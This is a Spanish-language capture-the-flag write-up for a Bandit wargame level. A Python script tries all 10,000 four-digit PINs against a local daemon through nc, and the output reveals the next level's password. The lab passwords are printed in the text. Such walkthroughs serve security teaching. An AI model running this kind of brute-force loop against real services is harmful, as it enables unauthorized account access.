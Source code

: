 ## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
## Datos de acceso al nivel
bandit24
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
## Solución
```
bandit24@bandit:/tmp/codigo$ touch codigos.py
bandit24@bandit:/tmp/codigo$ nano codigos.py

#!/usr/bin/python3

pw = "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar"

for codigo in range(0,10000):
        print(pw+" "+str(codigo).zfill(4))


bandit24@bandit:/tmp/codigo$ chmod +x codigos.py
bandit24@bandit:/tmp/codigo$ ./codigos.py | nc localhost 30002

I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.

...

Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```
## Notas adicionales

## Referencias